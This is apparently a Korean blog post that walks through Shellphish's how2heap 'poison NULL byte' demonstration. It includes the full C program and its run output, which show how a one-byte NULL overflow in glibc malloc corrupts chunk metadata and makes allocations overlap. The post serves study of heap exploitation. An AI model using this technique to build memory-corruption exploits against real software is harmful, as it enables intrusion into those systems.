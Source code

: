 ```yaml
---
layout: post
title: "Poison NULL byte"
date: 2016-06-13 16:46:53 +0900
comments: true
categories: 
---
```


[Shellphish 가 쓴 힙 공격 문서중에 하나, Poison NULL byte](https://github.com/shellphish/how2heap/blob/master/poison_null_byte.c) 를 읽고 정리한다.

* 참고 문서: [Glibc Adventures: The Fogotten Chunks](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)

우선 a,b,c 를 차례로 alloc 한다.

Ubuntu 에서 0x100 을 을 alloc 하고, `malloc_usable_size()` 를 해보면, 0x108 이 나온다. Rounding 때문인지, 요청한 것보다 메모리 영역이 더 잡혔다.

```
a = (uint8_t*)malloc(0x100);
b = (uint8_t*)malloc(0x200);
c = (uint8_t*)malloc(0x100);
```

* 이제 `uint64_t* b_size_ptr = (uint64_t*)(b-8);` 을 통해서, `struct malloc_chunk` 구조체 멤버인 `INTERNAL_SIZE_T size;` 를 가리키는 포인터를 만든다.

* 이 구조체를 이용해 b.size 를 찍어볼 수가 있는데,

* 0x211 로 나온다. `(0x200 + 0x10) | prev_in_use` 가 되는 것. 

* 이제 `a[real_a_size] = 0;`  을 통해서, b.size 의 하위 1 바이트를 0 으로 만든다.

* b.size 를 찍어보면 이제 0x210 으로 나온다.

* 이제 c.prev_size 를 찍어본다. b 를 free 했기때문에, 유효한 필드가 되버렸다. 찍으면 0x210 이 나온다.

* 이제 `b1 = malloc(0x100);` 을 한다. 그러면 예전 b 자리에 할당될 것이다.

만약 `a[real_a_size] = 0;` 을 안했다면, 다음과 같이 c.prev 가 제대로 update 되는데... (0x200 으로 앨록한 자리에 0x100 을 앨록했으니, c 앞에 free chunk 가 존재)

```
~ » ./a.out                                                              z@ubuntu
a: 0x1466010
real_a_size: 0x108
b: 0x1466120
real_b_size: 0x208
c: 0x1466330
addr of b_size_ptr: 0x1466118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x1466320
c.prev_size is 0x210
b1: 0x1466120
c.prev_size is 0x100
c' 0x100
c'' 0
```

`a[real_a_size] = 0;`... 즉 앞의 청크에서 NULL 바이트 오버플로우가 일어났다면... 그래서 b.size 의 하위 1 바이트를 0 으로 만들었다면 무슨 일이 벌어지는가? (`c'` 는 `c - 16`, `c''` 는 `c - 32`)

```
~ » ./a.out                                                              z@ubuntu
a: 0x1466010
real_a_size: 0x108
b: 0x1466120
real_b_size: 0x208
c: 0x1466330
addr of b_size_ptr: 0x1466118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x1466320
c.prev_size is 0x210
b1: 0x1466120
c.prev_size is 0x210
c' 0x210
c'' 0xf0
```

c.prev_size 가 제대로 update 되지 않는다. 0x210 -> 0x100 으로 줄어야하는데. 대신 엉뚱한데 0f0 이 써졌다.

정리하면, `a|b|c` 가 앨록된 상황에서, b 가 프리되고, a 가 overflow 되면서 b.size 의 1 바이트가 0 으로 바뀌었다. 그랬더니, 추후 앨록을 하니까 c 의 메타데이터가 연쇄반응으로 깨져버렸다.

이제,

* 현재 `a|b1|(free)|c` 로 앨록된 상황이다. c.prev_size 는 지나치게 크게 되어있다. b1 까지도 free 하다고 잘못 생각하고 있는 상황.

이제 `b2` 를 앨록한다.

* 그럼 `a|b1|b2|(free)|c` 로 앨록된 상황이다. 여전히 c.prev 는 잘못되어있다.

* 여기서 `free(b1); free(c);` 를 해준다음에 꽤 큰 사이즈를 `d` 로 앨록 요청하면, 상식적으로 `b2` 다음에 존재하던 free chunk 부터 앨록되어야 하나, 메모리 매니저는 `b == b1` 자리에 앨록한다. `d` 와 `b2` 가 overlapping 되는 셈.

* 이제 `d` 에다가 쓰인 데이터는 `b2` 가 가리키는 메모리를 를 corrupt 시킨다.

* 교훈은, malloc 에서 경계를 넘어가서, 1 바이트만 NULL 로 overwrite 되어도 메모리 커럽션이 일어날 수 있다는 것.

`b.size` 의 `prev_in_use` 가 overwrite 되지 않았을 경우,

소스.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main()
{
	uint8_t* a;
	uint8_t* b;
	uint8_t* c;
	uint8_t* b1;
	uint8_t* b2;
	uint8_t* d;

	a = (uint8_t*) malloc(0x100);
	int real_a_size = malloc_usable_size(a);
	printf("a: %p\n",a);
	printf("real_a_size: %#x\n",real_a_size);

	b = (uint8_t*) malloc(0x200);
	int real_b_size = malloc_usable_size(b);
	printf("b: %p\n",b);
	printf("real_b_size: %#x\n",real_b_size);
	
	c = (uint8_t*) malloc(0x100);
	printf("c: %p\n",c);

	uint64_t* b_size_ptr = (uint64_t*)(b-8);
	printf("addr of b_size_ptr: %p\n",b_size_ptr);

	free(b);

	printf("b.size after free: %#lx\n",*b_size_ptr);
	printf("b.size is (0x200+0x10) | prev_in_use\n");

	a[real_a_size] = 0;
	printf("b.size after free: %#lx\n",*b_size_ptr);

	uint64_t* c_prev_size_ptr = (uint64_t*)(c-16);
	printf("addr of c_prev_size_ptr: %p\n",c_prev_size_ptr);
	
	printf("c.prev_size is %#lx\n",*c_prev_size_ptr);

	b1 = malloc(0x100);
	printf("b1: %p\n",b1);

	printf("c.prev_size is %#lx\n",*c_prev_size_ptr);
	printf("c - 8 %#lx\n",*(((uint64_t*)c)-1));
	printf("c - 16 %#lx\n",*(((uint64_t*)c)-2));
	printf("c - 24 %#lx\n",*(((uint64_t*)c)-3));
	printf("c - 32 %#lx\n",*(((uint64_t*)c)-4));

	b2 = malloc(0x80);
	printf("b2: %p\n",b2);
	memset(b2,'B',0x80);
	printf("Current b2 content:\n%s\n",b2);

	printf("c.prev_size is %#lx\n",*c_prev_size_ptr);
	printf("c - 8 %#lx\n",*(((uint64_t*)c)-1));
	printf("c - 16 %#lx\n",*(((uint64_t*)c)-2));
	printf("c - 24 %#lx\n",*(((uint64_t*)c)-3));
	printf("c - 32 %#lx\n",*(((uint64_t*)c)-4));

	free(b1);
	free(c);
	d = malloc(0x300);
	printf("d: %p\n",d);

	memset(d,'D',0x300);

	printf("New b2 content:\n%s\n",b2);
}
```

실행결과.

```
~ » ./a.out                                                      z@ubuntu
a: 0x12f4010
real_a_size: 0x108
b: 0x12f4120
real_b_size: 0x208
c: 0x12f4330
addr of b_size_ptr: 0x12f4118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
addr of c_prev_size_ptr: 0x12f4320
c.prev_size is 0x210
b1: 0x12f4120
c.prev_size is 0x100
c - 8 0x110
c - 16 0x100
c - 24 0
c - 32 0
b2: 0x12f4230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
c.prev_size is 0x70
c - 8 0x110
c - 16 0x70
c - 24 0
c - 32 0
d: 0x12f42c0
New b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

이번에는 `b.size` 의 `prev_in_use` 가 corrupt 되었을 경우, `b2` 가 corrupt 됨을 알 수 있다.

```
a: 0x1655010
real_a_size: 0x108
b: 0x1655120
real_b_size: 0x208
c: 0x1655330
addr of b_size_ptr: 0x1655118
b.size after free: 0x211
b.size is (0x200+0x10) | prev_in_use
b.size after free: 0x200
addr of c_prev_size_ptr: 0x1655320
c.prev_size is 0x210
b1: 0x1655120
c.prev_size is 0x210
c - 8 0x110
c - 16 0x210
c - 24 0
c - 32 0xf0
b2: 0x1655230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
c.prev_size is 0x210
c - 8 0x110
c - 16 0x210
c - 24 0
c - 32 0x60
d: 0x1655120
New b2 content:
DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
```
